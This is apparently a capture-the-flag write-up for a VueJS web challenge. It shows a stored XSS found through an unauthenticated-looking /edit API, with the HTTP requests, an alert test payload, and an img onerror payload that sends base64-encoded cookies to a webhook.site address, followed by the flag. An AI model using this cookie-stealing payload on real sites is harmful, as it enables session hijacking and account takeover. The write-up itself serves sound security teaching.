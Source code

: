 # A Good Vue
> Check out my cool artworks over there: goodvue.rumble.host If you want an Admin to check out your cool stuff: goodvue-bot.rumble.host

## About the Challenge
We were given a website to test and this website using VueJS. Here is the preview of the website

![preview](images/preview.png)

If we press the `EXPLOIT` button in the corner of the website, it will return an alert

![alert](images/alert.png)

But there is an API endpoint that you can access [here](http://goodvue-api.rumble.host). If you access the homepage, the website will request to the API endpoint. Here is the HTTP request when the website send a request to `http://goodvue-api.rumble.host/get`

```
POST /get HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
...

{"id":"1","token":"OUR_COOKIE_VALUE"}
```

And it will return the review information such as likes, dislikes, and also the comments.

## How to Solve?
Because in the description there is an admin bot, so we know this is a XSS chall, and then because this website using VueJS i tried to check every request and I found this [url](http://goodvue.rumble.host/src/components/ImageComponent.vue)

![endpoint](images/endpoint.png)

As you can see there are 2 endpoints:
* http://goodvue-api.rumble.host/get
* http://goodvue-api.rumble.host/edit

When i tried to edit one of the review by sending this request

```
POST /edit HTTP/1.1
Host: goodvue-api.rumble.host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
...

{"id":"1","token":"OUR_COOKIE_VALUE","text":"test"}
```

Luckily our input was reflected in the website

![input](images/input.png)

And then i tried to use normal XSS payload

```html
<img src=x onerror=alert(document.cookie)>
```

![testing](images/testing.png)

And we got an alert, so I tried to create another payload to steal the admin cookie. Here is the payload I used to steal the cookie

```
<img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie)\">"
```

After that, send the cookie to the admin and then wait until we got the admin's cookie

![webhook](images/webhook.png)

Decode the cookie using base64 and voilà

![flag](images/flag.png)

```
CSR{3v3n_vu3_c4n_h4v3_XSS}
```